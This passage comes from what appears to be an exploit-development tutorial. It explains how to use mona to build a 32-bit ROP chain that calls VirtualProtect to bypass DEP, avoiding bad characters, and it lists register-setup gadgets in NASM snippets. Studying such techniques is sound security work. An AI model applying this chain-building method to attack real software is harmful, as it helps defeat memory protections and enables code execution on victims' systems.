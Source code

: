 
the following command instruct mona create ROP Chain with 4 modules that have mentioned before and make sure the instructions don't have this 4 bad characters. We need to get rid this 4 bad characters, so our exploit is not altered at runtime.

So this is going to be my strategy to construct the ROP:

As we know 32 bit binary used stack to put the parameter of called function, thus, I will used pushad instruction that will get all of the content of registers and put it in the stack following this order:

EAX, ECX, EDX, EBX, EBP, ESI and EDI

Each of this register will be contain the following value(I combined the ROP Chain by using rop_chain.txt and rop.txt file that generated by mona using the previous command):

EAX -> Virtualprotect() function pointer


{% highlight nasm %}

POP EAX, RETN
IAT &VirtualProtect

{% endhighlight %}


ECX -> Address of any location inside the program that is writable (lpfOldProtect)


{% highlight nasm %}

POP ECX, RETN
0x7c38c777

{% endhighlight %}


EDX -> Protection level flag 0x40(set to be executable again) (flNewProtect). Since there is going to be null byte we are going to use neg instruction that will flip each of the bits.


{% highlight nasm %}

POP EDX, RET
0xffffffc0
NEG EDX, RET

{% endhighlight %}


EBX -> Affected number of bytes we will set this to 0x201(shellcode size, more or less) (dwSize). 


{% highlight nasm %}

POP EAX, RET
0xfffffdff
NEG EAX, RET
POP EBX, RET
0xffffffff
INC EBX, RET
ADD EBX,EAX 
XOR EAX,EAX, RETN

{% endhighlight %}
